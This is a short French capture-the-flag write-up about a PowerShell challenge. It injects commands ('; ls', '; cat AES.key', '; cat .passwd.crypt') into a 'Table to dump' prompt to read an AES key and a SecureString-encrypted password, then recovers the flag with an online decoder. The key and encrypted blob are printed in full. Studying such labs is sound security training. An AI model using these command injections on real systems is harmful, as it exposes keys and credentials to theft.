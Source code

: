 # Powershell - SecureString

## Procédure 

1. Utilisation d'une Powershell Command Injection

```
Table to dump:
> ; ls
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table
-a----       12/12/2021   9:25 AM             43 .git
-a----       10/29/2020   9:27 AM            361 .passwd.crypt
------       12/12/2021   9:50 AM            748 ._perms
-a----       10/29/2020   9:23 AM            176 AES.key
-a----       10/29/2020   9:30 AM            331 ch19.ps1
```

Un fichier .key et un fichier .crypt sont disponibles

2. Ouverture des fichiers et sauvegarde de la clé et du mot de passe crypté

### Clé

```
> ; cat AES.key
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table
3 4 2 3 56 34 254 222 1 1 2 23 42 54 33 233 1 34 2 7 6 5 35 43
```

### Mot de passe crypté

```
> ; cat .passwd.crypt
Connect to the database With the secure Password: System.Security.SecureString.
Backup the table
76492d1116743f0423413b16050a5345MgB8AEkAMQBwAEwAbgBoAHgARwBXAHkAMgB3AGcAdwB3AHQA
RQBqAEEARQBPAEEAPQA9AHwAMgAyAGMANQA1ADIANwBiADEANQA4ADIANwAwAGIANAA2ADIAMQBlADAA
NwA3ADIAYgBkADYANgAyADUAYwAyAGMAYQBhAGUAMAA5ADUAMAA2ADUAYQBjADIAMQAzADIAMgA1AGYA
NgBkAGYAYgAxAGMAMgAwADUANQBkADIAMgA0AGQAYgBmADYAMQA4AGQAZgBkAGQAMwAwADUANAA4AGYA
MAAyADgAZAAwADEAMgBmAGEAZQBmADgANAAyADkA
```

4. Recherche d'un site pour cracker clé System.Security.SecureString 

Ce site fait l'affaire : https://www.wietzebeukema.nl/powershell-securestring-decoder/

Une fois la clé et le mot de passe crypté rentré dans les blocs le flag apparaît.
